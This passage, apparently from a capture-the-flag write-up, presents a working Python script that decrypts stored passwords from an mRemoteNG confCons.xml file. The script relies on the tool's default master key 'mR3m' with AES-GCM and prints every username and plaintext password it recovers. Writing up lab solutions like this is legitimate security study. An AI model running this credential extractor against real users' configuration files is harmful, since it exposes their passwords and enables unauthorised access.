 At the time I was solving, there was only a java version on that GitHub, and I wanted a `python` version. So I wrote a quick script:

```

  1 #!/usr/bin/env python3
  2 
  3 import base64
  4 import hashlib
  5 import re
  6 import sys
  7 from Cryptodome.Cipher import AES
  8 
  9 if len(sys.argv) != 2:
 10     print(f"[-] Usage: {sys.argv[0]} [confCons.xml]")
 11     sys.exit()
 12 
 13 try:
 14     with open(sys.argv[1], 'r') as f:
 15         conf = f.read()
 16 except FileNotFoundError:
 17     print(f"[-] Unable to open {sys.argv[1]}")
 18     sys.exit()
 19 
 20 mode = re.findall('BlockCipherMode="(\w+)"', conf)
 21 if len(mode) !=1:
 22     print("[-] Warning - No BlockCipherMode detected")
 23 elif mode[0] != 'GCM':
 24     print(f"[-] Warning - This script is for AES GCM Mode. {mode} detected")
 25 
 26 nodes = re.findall('<Node .+/>', conf)
 27 if len(nodes) > 0:
 28     print(f"[+] Found nodes: {len(nodes)}\n")
 29 else:
 30     print("[-] Found no nodes")
 31 
 32 for node in nodes:
 33     user = re.findall(' Username="(\w*)"', node)[0]
 34     enc = base64.b64decode(re.findall(' Password="([^ ]+)"', node)[0])
 35     salt = enc[:16]
 36     nonce = enc[16:32]
 37     cipher = enc[32:-16]
 38     tag = enc[-16:]
 39     key = hashlib.pbkdf2_hmac("sha1", b"mR3m", salt, 1000, dklen=32)
 40     aes = AES.new(key, AES.MODE_GCM, nonce=nonce)
 41     aes.update(salt)
 42     password = aes.decrypt_and_verify(cipher, tag).decode()
 43     print(f"Username: {user}\nPassword: {password}\n")

```

It takes a `consCons.xml` file, and prints all the decrpyted passwords it can find.
